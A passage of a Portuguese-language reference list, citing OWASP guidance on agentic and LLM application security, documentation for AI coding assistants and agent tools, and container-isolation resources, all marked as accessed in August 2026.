[16] AUTH0. *Lessons from OWASP Top 10 for Agentic Applications: Least Privilege to Least Agency*. Disponível em: https://auth0.com/blog/owasp-top-10-agentic-applications-lessons/. Acesso em: 06 ago. 2026.
[17] MODULOS. *OWASP Top 10 for Agentic Applications (2026) Governance Guide*. Disponível em: https://docs.modulos.ai/frameworks/owasp-top-10-agentic/. Acesso em: 06 ago. 2026.
[18] GITHUB. *Adding repository custom instructions for GitHub Copilot*. Disponível em: https://docs.github.com/copilot/customizing-copilot/adding-custom-instructions-for-github-copilot. Acesso em: 06 ago. 2026.
[19] GITHUB. *AGENTS.md file for GitHub Copilot*. Disponível em: https://docs.github.com/copilot/customizing-copilot/adding-custom-instructions-for-github-copilot. Acesso em: 06 ago. 2026.
[20] DEVIAN. *Windsurf Cascade Hooks*. Disponível em: https://docs.devin.ai/desktop/cascade/hooks. Acesso em: 06 ago. 2026.
[21] ROO CODE. *Auto-Approving Actions*. Disponível em: https://roocodeinc.github.io/Roo-Code/features/auto-approving-actions/. Acesso em: 06 ago. 2026.
[22] OPENCODE. *OpenCode Configuration*. Disponível em: https://opencode.ai/docs/config/. Acesso em: 06 ago. 2026.
[23] ANTHROPIC. *Claude Code on GitHub*. Disponível em: https://github.com/anthropics/claude-code. Acesso em: 06 ago. 2026.
[24] ANTHROPIC. *Model Context Protocol Documentation*. Disponível em: https://modelcontextprotocol.io/. Acesso em: 06 ago. 2026.
[25] GOOGLE. *gVisor — Application Kernel for Containers*. Disponível em: https://gvisor.dev/. Acesso em: 06 ago. 2026.
[26] DOCKER. *Docker security best practices*. Disponível em: https://docs.docker.com/engine/security/. Acesso em: 06 ago. 2026.
[27] OWASP. *Prompt Injection — OWASP Cheat Sheet*. Disponível em: https://cheatsheetseries.owasp.org/cheatsheets/Prompt_Injection_Cheat_Sheet.html. Acesso em: 06 ago. 2026.
[28] OWASP. *LLM Tool Poisoning — OWASP Top 10 for LLM Applications*. Disponível em: https://genai.owasp.org/. Acesso em: 06 ago. 2026.
[29] CURSOR. *Rules Documentation*. Disponível em: https://cursor.com/docs/context/rules. Acesso em: 06 ago. 2026.
[30] CLINE. *Cline VS Code Extension*. Disponível em: https://github.com/cline/cline. Acesso em: 06 ago. 2026.
